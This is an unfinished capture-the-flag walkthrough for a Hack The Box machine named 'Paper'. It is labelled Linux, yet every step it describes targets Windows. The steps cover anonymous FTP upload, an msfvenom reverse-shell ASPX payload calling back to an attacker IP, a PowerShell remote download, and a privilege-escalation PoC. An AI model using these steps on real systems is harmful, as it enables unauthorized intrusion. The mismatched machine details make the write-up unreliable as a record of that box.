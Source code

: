 # NOT DONE YET
# Paper
* Link: https://app.hackthebox.com/machines/Paper
* Type: Linux
* Difficulty: Easy

## Commands Used
* *nmap -sC -sV -oA DIR IPADDRESS* - Nmap scan.

* *ftp IPADDRESS* - to connect to the target using FTP.
* In FTP:
  - To log in as anonymous, type the username as *anonymous* and any password.
  - *put FILENAME* - uploads file
  - *delete FILENAME* - deletes file
    
* *msfvenom -l payloads | grep window* - Search for payloads in Metasploit (The grep is to get payloads specific to Windows)
* *msfvenom -p windows/shell/reverse_tcp LHOST=IPADDRESS LPORT=PORTNUMBER -f aspx -o FILENAME.aspx* (You can change the format to any of the formats supported by metasploit)
* *nc -lvnp 4444* starts a listener (Note that Netcat can only listen to stageless payloads and not staged.)
* *python -m SimpleHTTPServer PORTNUMBER* - Starts a simple HTTP server using python (Can be used to upload files to target system)

* In Windows:
  - *systeminfo* gets information about the system, most importantly,
    1. HotFixes - Indicates updates
    2. System Type - Shows the type of the system
    3. OS Version - Shows the version of the system.
  - *dir* to list files in a directory
  - *type TEXTFILENAME* reads the content of the text file.
  - *EXEFILENAME* runs the exe file.
  - *powershell -c "(new-object System.Net.WebClient).DownloadFile('http://IPADDRESS:PORTNUMBER/FILENAME', 'PATHTODOWNLOAD\FILENAME')"* - Downloads a file using PowerShell.
* *searchsploit -m 40564* - Gets the PoC for the specified CVE.
* *i686-w64-mingw32-gcc FILENAME.c -o FILENAME.exe -lws2_32* compiles a c file into the executable exe.

## Steps
* Start by checking the open ports using nmap (nmap -sC -sV -oA DIR IPADDRESS)
* use *ftp IPADDRESS* to connect (Anonymous Login).
* Since it's Windows it uses ASP/ASPX.
* If you use a x64 payload on a x86 system it will not work. However, if you use a x86 payload on a x64 system it will work. (it's recommended to use reverse TCP - windows/shell/reverse_tcp)
* Create a reverse shell (msfvenom -p windows/shell/reverse_tcp LHOST=10.10.16.3 LPORT=4444 -f aspx -o tempWindows.aspx).
* Upload it to the server using the ftp connection.
* run a netcat listner to listen for the reverse connection.
* Run the file by using any browser.
* Enumerate info about the system.
* Google some privilage escelation exploits (2011-1249 & 40564)
* Get the PoC for the CVE.
* Upload it to the server using a python server and Powershell command.
* Run the payload.
* Now you should have root on the system.
* The flags are in the desktops of the users.

## Why is the machine vulnerable
* FTP anonymous login is enabled when it shouldn't. If there is a necessary need for it then at grant it with limited privileges (i.e. only Download)
* The Machine is not patched/updated. 
